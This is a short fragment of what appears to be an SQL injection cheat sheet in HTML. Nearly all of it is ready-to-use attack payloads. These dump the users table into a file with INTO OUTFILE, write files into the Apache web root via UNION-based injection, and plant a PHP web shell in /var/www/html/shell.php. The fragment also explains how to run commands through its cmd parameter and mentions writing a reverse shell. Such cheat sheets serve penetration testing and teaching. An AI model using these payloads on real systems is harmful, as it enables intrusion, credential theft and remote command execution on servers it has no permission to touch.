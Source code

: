 SELECT * from users INTO OUTFILE '/tmp/credentials';
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt'; (use to write reverse shell)
' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
</pre>
<p>Note that /var/www/html is the web root for apache servers</p>

<h4>Writing Files: Web Shell</h4>
<pre>
' union select "",'&lt;?php system($_REQUEST["cmd"]); ?&gt;', "", "" into outfile '/var/www/html/shell.php'-- -
</pre>
<p>Surf to the webroot with ?cmd=command in the url as a parameter to execute commands.</p>









